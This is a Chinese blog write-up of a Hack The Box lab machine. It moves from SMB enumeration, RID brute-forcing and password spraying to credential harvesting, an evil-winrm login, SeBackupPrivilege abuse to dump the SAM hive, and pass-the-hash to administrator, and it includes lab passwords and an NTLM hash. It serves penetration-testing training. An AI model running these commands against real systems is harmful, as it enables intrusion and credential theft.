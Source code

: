#  HTB靶场通关-1   
原创 摆烂的beizeng  土拨鼠的安全屋   2024-12-31 10:06  
  
## 端口扫描  
```

nmap 10.10.11.35


```  
  
扫描结果  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUia8bjk6KVdtAOcqlLFoWmA0Jibuy0aFIH7jNReIvy1wz04Gm8dGk4JWew/640?wx_fmt=png&from=appmsg "")  
## smb连接  
  
发现开放445端口有smb服务，连接试试  
```

smbclient -L //10.10.11.35

  


```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUiap6g5B0lgrOTibtBwanNJzlOXzl4cSibRaqb0BcCUnRBrbEoT3lJqk6yw/640?wx_fmt=png&from=appmsg "")  
  
发现需要密码使用免密登录试试  
```

smbclient -N //10.10.11.35

或者

enum4linux -a -u guest 10.10.11.35


```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUia7RxgUc0lvFiaiaa6PAnA5z93DfI9j8XfLxIUxZAPlM5O2TiactUqsryZg/640?wx_fmt=png&from=appmsg "")  
  
把这个文件下载下来看看  
```

get "Notice from HR.txt"


```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUiaa1c4b02p1DhiaWKVuv0WMom4U1nWVxMS3EOtGJ42DU1GMFo8QEBkriaA/640?wx_fmt=png&from=appmsg "")  
获取到一个默认的密码Cicada$M6Corpb*@Lp#nZp!8  
## Rid爆破  
  
**crackmapexec **工具使用：  
https://www.cnblogs.com/Yang34/p/14411497.html  
```

crackmapexec smb 10.10.11.35 -u "guest" -p "" --rid-brute|grep "SidTypeUser"

或者

nxc smb 10.10.11.35 -u guest -p '' --rid-brute --users


```  
  
这是两个工具爆破得到的结果  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUiaaxYPGQgKOWIC56ZSmZMBjfcN5uQiaDv8jeXFOBFj5ynlaqSob2mAuAA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUia9HV0EFNuFU0E5iaicQPn2XlnHL42p9AP6uByNc1xsvDBYS8m7MgJ0PXg/640?wx_fmt=png&from=appmsg "")  
  
其实都是差不多的可以得到用户名列表  
```

john.smouldersarah.danteliamichael.wrightsondavid.oreliousemily.oscars


```  
  
遍历用户名密码看哪个正确  
```

crackmapexec ldap cicada.htb -u usernames.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'


```  
  
发现对michael.wrightson用户可用  
## enum4linux-ng扫描  
  
使用enum4linux-ng搜集所有与smb服务有关的信息  
```

enum4linux-ng -A -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35 -t 10


```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUiapWNbulLZuZ7k38iaJc4cytRgbL2TA1FwvHibwHemFPxTI4WAHTQlj2nw/640?wx_fmt=png&from=appmsg "")  
  
发现了david的密码：aRt$Lp#7t*VQ!3  
  
使用该用户进行smb连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUiaH0Qg1RYvXQkrHSGMuvvsUqibdFk19rCqUAhsjs6PQRHlyAtxH4g2qiaA/640?wx_fmt=png&from=appmsg "")  
  
可以看到有一个文件下载下来使用get "文件名"命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUiarec2PGGC71GV2wUxev22s1hP5HLiahdia7wjeedlfd0kB7ZNbzibhWSZQ/640?wx_fmt=png&from=appmsg "")  
  
发现了用户名和密码  
## winrm登录  
```

evil-winrm -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -i 10.10.11.35


```  
  
使用evil-winrm 登录得到用户的flag  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUialYN75ibEM7CGXhHBSUWbUx5nghBZ7nkFVH3ECdEHopMKjUs5Ty1K99A/640?wx_fmt=png&from=appmsg "")  
## SeBackupPrivilege  
  
查看当前用户的权限  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUia2CB3nH4nzox61R8xUbvErr9yrqBo2yDknx3icBBOvtjeaGm99REOgqg/640?wx_fmt=png&from=appmsg "")  
  
关于这个 SeBackupPrivilege：  
Windows Privilege Escalation: SeBackupPrivilege – Hacking Articles  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUia85eLat9URja0cpjUHvnib35aHzCibKoZnUeLDBExicGulzzApCZ1r9EvQ/640?wx_fmt=png&from=appmsg "")  
## pypykatz  
  
使用 pypykatz 得到 admin 的 hash 值  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUiaAgwM2wReypl5Q99fToX8SMsuCRplibmyUAYdnyQcFvzdibeecWRJ0fTw/640?wx_fmt=png&from=appmsg "")  
## impacket-secretsdump  
  
或者使用impacket-secretsdump工具  
```

impacket-secretsdump -sam sam -system system LOCAL


```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUiaULibXRC8KZrxwdDXibyz9abqmu8T6uVMrpsax3pK2alGDgJHibfGFibgcw/640?wx_fmt=png&from=appmsg "")  
  
最后使用 evil-winrm  
 的 hash 登录到 admin，得到 root.txt  
```

evil-winrm -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i 10.10.11.35


```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeVdvzuHt9z6yNiaDCG6gkfUia6dicfkTYU1hoBXq69YiakydwLnfXjFcU80fhzKTUvIf92N0GoJNroJIA/640?wx_fmt=png&from=appmsg "")  
  
  
  
